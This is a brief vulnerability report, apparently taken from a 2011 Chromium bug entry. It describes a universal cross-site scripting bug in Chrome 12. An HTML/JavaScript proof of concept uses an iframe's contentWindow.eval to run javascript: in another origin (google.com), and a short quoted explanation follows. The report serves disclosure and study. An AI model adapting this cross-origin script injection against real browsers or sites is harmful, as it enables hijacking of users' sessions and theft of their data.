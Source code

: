 # Universal XSS using `contentWindow.eval`

#### May 24 2011

### VULNERABILITY DETAILS

PoC:

```html
<script>
  i = document.body.appendChild(document.createElement("iframe"));
  f = i.contentWindow.eval('(function(){location="javascript:alert(location)"})');
  i.src = "http://google.com";
  i.onload = f;
</script>
```

> From comment #30 in bug 83096: ~~access to this bug is restricted~~
> it becomes a different-origin window after eval() is called.
> eval() is used to construct a function with the context of that window.

#### VERSION:

Chrome: Version 12

Link: https://bugs.chromium.org/p/chromium/issues/detail?id=83743
